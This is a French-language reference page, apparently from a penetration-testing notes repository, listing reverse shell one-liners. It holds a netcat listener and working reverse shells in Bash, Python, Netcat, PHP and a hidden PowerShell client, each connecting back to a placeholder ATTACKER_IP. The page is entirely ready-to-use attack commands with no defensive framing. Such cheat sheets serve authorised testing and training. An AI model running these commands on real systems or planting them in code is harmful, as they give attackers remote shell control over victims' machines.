 # 🐚 Reverse Shells

[← Retour à la table des matières](../README.md)

## Listener (Attaquant)
```bash
nc -nvlp 1234
```

## Bash
```bash
/bin/bash -c 'bash -i>&/dev/tcp/ATTACKER_IP/1234 0>&1'
bash -i >& /dev/tcp/ATTACKER_IP/1234 0>&1
```

## Python
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Netcat
```bash
nc -e /bin/sh ATTACKER_IP 1234
nc -c /bin/sh ATTACKER_IP 1234
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP 1234 >/tmp/f
```

## PHP
```php
<?php system("/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/1234 0>&1'"); ?>
```

## PowerShell (Windows)
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "& {$client = New-Object System.Net.Sockets.TCPClient('ATTACKER_IP',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()}"
```